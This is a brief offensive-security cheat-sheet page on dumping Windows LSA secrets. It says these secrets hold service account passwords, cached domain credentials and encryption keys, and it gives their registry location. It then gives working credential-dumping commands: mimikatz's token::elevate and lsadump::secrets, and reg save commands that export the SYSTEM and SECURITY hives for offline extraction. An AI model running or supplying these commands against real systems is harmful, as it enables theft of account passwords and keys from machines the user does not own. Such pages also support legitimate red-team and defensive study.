

# Dumping LSA Secrets

> #### **What is stored in LSA secrets?**
>
> Originally, the secrets contained cached domain records. Later, Windows developers expanded the application area for the storage. At this moment, they can store PC users' text passwords, service account passwords \(for example, those that must be run by a certain user to perform certain tasks\), Internet Explorer passwords, RAS connection passwords, SQL and CISCO passwords, SYSTEM account passwords, private user data like EFS encryption keys, and a lot more. For example, the _NL$KM_ secret contains the cached domain password encryption key.

## Storage

LSA Secrets are stored in registry:

```text
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```


## Execution

### Memory

Secrets can be dumped from memory like so:



```text
token::elevate
lsadump::secrets
```




### Registry

LSA secrets can be dumped from registry hives likes so:



```csharp
reg save HKLM\SYSTEM system & reg save HKLM\security security
```






```csharp
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```





## References




